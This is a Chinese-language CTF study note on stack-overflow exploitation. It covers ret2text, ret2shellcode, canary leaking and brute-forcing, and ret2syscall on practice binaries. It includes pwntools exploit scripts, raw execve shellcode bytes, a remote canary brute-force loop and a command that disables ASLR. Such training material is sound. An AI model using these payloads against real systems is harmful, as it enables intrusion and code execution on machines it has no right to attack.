








# Stack Overflow

栈溢出指程序向栈中的 **某个变量** 写入字节数超过了这个变量本身所申请的字节数，因而导致与其相**邻栈中变量的值变改变。**

发生栈溢出的基本提前是

- 程序必须向栈上写数据
- 写入的数据大小没有被良好的控制

gcc编译时

```
-m32	生成32位程序
-fno-stack-protector	不开启堆栈溢出保护
-no-pie	关闭PIE保护
```

提到编译时的 PIE 保护，Linux 平台下还有地址空间分布随机化（ASLR）的机制。简单来说即使可执行文件开启了 PIE 保护，还需要系统开启 ASLR 才会真正打乱基址，否则程序运行时依旧会在加载一个固定的基址上（不过和 No PIE 时基址不同）。我们可以通过修改 `/proc/sys/kernel/randomize_va_space` 来控制 ASLR 启动与否，具体的选项有


- 0，关闭 ASLR，没有随机化。栈、堆、.so 的基地址每次都相同。
- 1，普通的 ASLR。栈基地址、mmap 基地址、.so 加载基地址都将被随机化，但是堆基地址没有随机化。
- 2，增强的 ASLR，在 1 的基础上，增加了堆基地址随机化。

我们可以使用`echo 0 > /proc/sys/kernel/randomize_va_space`关闭 Linux 系统的 ASLR，类似的，也可以配置相应的参数。


## 栈溢出原理

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

程序的栈，假设我们要劫持到的地址在 0x0804843B （注意该图是高地址到低地址）

```
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

于是想办法让程序的栈成这样

```
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

 写出EXP

```python
from pwn import *

sh = process("./stack_example")

success_addr = 0x08049186

payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)

print(payload)

sh.sendline(payload)

sh.interactive()
```

Get Shell!




### 栈溢出的几个重要步骤

**寻找危险函数**

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。常见的危险函数如下

- 输入
  - gets，直接读取一行，忽略'\x00'
  - scanf
  - vscanf
- 输出
  - sprintf
- 字符串
  - strcpy，字符串复制，遇到'\x00'停止
  - strcat，字符串拼接，遇到'\x00'停止
  - bcopy


**确定填充长度** 

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

- 相对于栈基地址的的索引，可以直接通过查看 EBP 相对偏移获得
- 相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
- 直接地址索引，就相当于直接给定了地址。

一般来说，我们会有如下的覆盖需求

- **覆盖函数返回地址**，这时候就是直接看 EBP 即可。
- **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
- **覆盖 bss 段某个变量的内容**。
- 根据现实执行情况，覆盖特定的变量或地址的内容。

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来**直接或者间接地控制程序执行流程**。


## 基本ROP

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。

 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序。ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

（所谓 gadgets 就是以 ret 结尾的指令序列）


### ret2text

#### Normal

首先看程序的保护机制

```
➜  ret2text checksec ret2text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

随后查看main函数可能发现用了gets，存在栈溢出漏洞

之后又发现

```
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```

如果我们把程序控制流运行到该地址就可以直接getshell了

于是下个断点查看



由此可以推断

- s 的地址为0xffffcfbc
- s 相对于 ebp 的偏移为 0x6C
- s 相对于返回地址的偏移为 0x6C + 4

于是写出exp

```python
from pwn import *

sh = process('ret2text')

target = 0x0804863A

sh.sendline(b'Z' * (0x6C + 4) + p32(target))

sh.interactive()
```


#### 覆盖修改变量

普通套路就是劫持到 system 的地方，还有个方法就是修改 v2 变量值

```C
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

而这个 11.28125 对应的十六进制需要转换一下

> https://www.binaryconvert.com/



覆盖完 v1 直接修改 v2 即可



EXP

```python
p = process('PWN1')
key = 0x41348000

payload = b'Z' * 44 + p32(key)

# gdb.attach(p)
p.sendline(payload)
p.interactive()
```


### ret2shellcode

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。


#### Normal

首先检测程序开启的保护

```
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用 IDA 看一下程序

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

可以看出，程序仍然是基本的栈溢出漏洞，不过这次还同时将对应的字符串复制到 buf2 处。简单查看可知 buf2 在 bss 段。

```assembly
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
```

我们简单的调试下程序，看看这一个 bss 段是否可执行

```
gef➤  b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
gef➤  r
Starting program: /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode 

Breakpoint 1, main () at ret2shellcode.c:8
8       setvbuf(stdout, 0LL, 2, 0LL);
─────────────────────────────────────────────────────────────────────[ source:ret2shellcode.c+8 ]────
      6  int main(void)
      7  {
 →    8      setvbuf(stdout, 0LL, 2, 0LL);
      9      setvbuf(stdin, 0LL, 1, 0LL);
     10  
─────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x8048536 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  vmmap 
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x08049000 0x0804a000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0xf7dfc000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fac000 0x001af000 --- /lib/i386-linux-gnu/libc-2.23.so
0xf7fac000 0xf7fae000 0x001af000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7faf000 0x001b1000 rwx /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb2000 0x00000000 rwx 
0xf7fd3000 0xf7fd5000 0x00000000 rwx 
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 0x00000000 rwx 
0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 0x00000000 rwx [stack]
```

通过 vmmap，我们可以看到 bss 段对应的段具有可执行权限

```
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
```

我们就控制程序执行 shellcode，思路就是

- 输入 shellcode

- 控制程序执行 bss 段处的 shellcode

EXP

```python
from pwn import *

context.log_level = 'debug'

sh = process('./ret2shellcode')

shellcode = asm(shellcraft.sh())
buf2_addr = 0x804A080

raw_input()
sh.sendline(shellcode.ljust(112, b'Z') + p32(buf2_addr))

sh.interactive()
```

然而在我的虚拟机上怎么都跑不了，我就纳闷了，各种调试，然而gdb也不熟，于是学到一个方法就是

- 发 payload 前 raw_input()
- 再 gdb attach 上去
- 在关键位置下断点再 c
- 随后在python启动的脚本那按回车取消堵塞

就可以愉快的调试了，然而这题的原因是我的高版本ubuntu导致 bss 段不能执行，低版本可以（eeee说是内核保护机制）




#### mprotect

程序开了NX保护，审计主函数发现用了 mprotect 将 buff 所在的 .bss 段设了 7 权限，于是可以 ret2shellcode

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[256]; // [rsp+0h] [rbp-100h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((void *)((unsigned __int64)&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  memset(s, 0, sizeof(s));
  read(0, s, 0x110uLL);
  strcpy(buff, s);
  return 0;
}
```

EXP，同时要注意这是64位程序，随后我们 shellcraft.sh 默认的是 i386，所以要 p = process('shellcode') 即可

```python
p = process('shellcode')

sys_address = 0x4040A0
context.arch = "amd64"

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x108, b'Z') + p64(sys_address)

# gdb.attach(p)
p.sendline(payload)
p.interactive()
```


#### 手动构造shellcode

该题同样都我们可以构造的 shell 地方 7 权限，但是输入限制在了 0x25，而 pwntools 帮我们生成的是超过这个字节的，所以我们需要自己去构造一个更精简的 shellcode

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((void *)((unsigned __int64)&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 0x25uLL);
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);
  return 0;
}
```

如64位可以这样构造，函数参数可以看官方文档

> https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md



随后将 shellcode 转为 十六进制

> https://shell-storm.org/online/Online-Assembler-and-Disassembler/

那么其他都是老套路了，EXP

```python
p = process('shellcode2')

shellcode = b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05"
system_addr = 0x6010A0

p.sendline(shellcode)

payload = b'Z' * 0x12 + p64(system_addr)
p.sendline(payload)
p.interactive()
```

如果程序限制的长度更加苛刻，那么可以根据主函数最后的 ret 时，也就是要跳到我们 shellcode 时观察寄存器情况

```
比如 xor ecx, ecx 就比 xor rcx, rcx 精简
再坚持有些寄存器是不是可以不用设置本身就为0
于是可以写出更精简的 shellcode
```

### Canary

将随机生成的乱数塞入stack中，function return 前检查该乱数是否有被更改过检查它和fs段寄存器，也就是tls段中的数据是否相等，如果不想等就立即结束程序，又称 canary。




#### normal

查看主程序可以发现我们的第一段输入先和固定生成的数据 s2 对比，那么直接动调取即可

```C
unsigned __int64 __fastcall work(void *a1)
{
  char v2[256]; // [rsp+0h] [rbp-150h] BYREF
  __int64 v3[2]; // [rsp+100h] [rbp-50h] BYREF
  __int64 s2[2]; // [rsp+110h] [rbp-40h] BYREF
  char buf[16]; // [rsp+120h] [rbp-30h] BYREF
  char v6[24]; // [rsp+130h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+148h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v3[0] = 0xBA0033020LL;
  v3[1] = 0xC0000000D00000CLL;
  s2[0] = 0x706050403020100LL;
  s2[1] = 0xF0E0D0C0B0A0908LL;
  SEED_KeySchedKey(v2, v3);
  SEED_Encrypt(s2, v2);
  init_io();
  puts("hopefully you have used checksec");
  puts("enter your pass word");
  read(0, buf, 0x10uLL);
  if ( !memcmp(buf, s2, 0x10uLL) )
  {
    write(1, v6, 0x100uLL);
    gets(v6);
  }
  else
  {
    read(0, v6, 0x10uLL);
  }
  return __readfsqword(0x28u) ^ v7;
}
```

随后 write(1, v6, 0x100uLL); 就是 v6 开始往下写0x100个字节，而 v6 的大小是 0x18，所以 0x18 之后就是我们要的 canary 的值

这就是 canary 的经典写法

```
  v7 = __readfsqword(0x28u);
  ...
  return __readfsqword(0x28u) ^ v7;
```

随后 gets 就是基本的栈溢出，直接劫持到 system 函数即可

EXP，注意数据的发放，就比如我们的一个输入是 read，这时候如果用 sendline 就会导致多个 \n，之后的 gets 数据的接收就不行了

```python
from pwn import *

p = process("service1")

systemAddr = 0x40125E 

# gdb.attach(p)
# pause()
p.send(b'G\xF1\x94\x82\x0E\x1E6\xB0\xA9\xA6\xD8\x4E\xC3\xE0\t\x8C')

p.recvuntil(b'\x00' * 0x18)
canary = u64(p.recv(8))
print(hex(canary))

payload = b'Z' * 0x18 + p64(canary) + p64(0) + p64(systemAddr)
p.send(payload)

p.interactive()
```

还有个 gdb.attach 有时候要加 pause，有时候不用，就看 gdb.attach 能不能断住（）


#### 子进程 canary

由于服务器端 fork 了一个子进程，只要主进程没有重启，子进程的 canary 就一直一样，因为子进程是复制主进程的内存情况，所以每次请求 fork 出来的子进程的 canary 就都是一样的。

就如该题

```C
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __pid_t v3; // [rsp+Ch] [rbp-4h]

  sub_1243(a1, a2, a3);
  while ( 1 )
  {
    v3 = fork();
    if ( v3 < 0 )
      break;
    if ( v3 )
    {
      wait(0LL);
    }
    else
    {
      puts("welcome");
      sub_128A();
      puts("have fun");
    }
  }
  puts("fork error");
  exit(0);
}
```

sub_128A 该函数经典 canary + 栈溢出，那么既然子进程的 canary 不变，所以直接爆破得到 canary 后再栈溢出即可

```C
unsigned __int64 sub_128A()
{
  char buf[104]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+68h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  read(0, buf, 0x80uLL);
  return v2 - __readfsqword(0x28u);
}
```

EXP

这里的 canary 逐个字节爆即可，也不用管大端序还是小端序，因为逐渐覆盖一个一个字节直接全对

随后因为分页机制，也就是一页 0x1000，而最后三位是固定的就是 0x231，所以要把所有页都爆破了

但是system_addr基地址为什么不用加？？因为返回的地方是 main 函数的地址，所以只用覆盖偏移地址

```python
from tqdm import tqdm

#p = process("funcanary")
p = remote("node1.anna.nssctf.cn", 28574)
#context.log_level= "debug"
canary = b""

for i in range(8):
	for j in tqdm(range(0xFF)):
		payload = b"Z" * 0x68 + canary + p8(j) 
		p.recvuntil("welcome\n")
		p.send(payload)
		a = p.recv(8)
		if b"fun" in a:
			canary += p8(j)
			print(canary)
			break
		
for i in range(0xF):
	system_Addr = i * 0x1000 + 0x231
	pay = b"Z" * 0x68 + canary + p64(0) + p16(system_Addr)
	p.send(pay)
	a = p.recvuntil("welcome\n", timeout=1)
	print(a)

p.interactive()
```


### PIE

开启了 PIE 保护后，基地址是在变化的




#### Normal


### ret2syscall

首先检测程序开启的保护

```
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

同样也是个栈溢出，之前的方法可以计算出相对于ebp的偏移为108，所以覆盖到返回地址就是112

此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

```
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值呢？这里就需要使用 gadgets。

比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10

但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因（ret就相当于pop eip的效果）

首先，寻找控制eax的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

类似的也可以得到控制其他寄存器的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
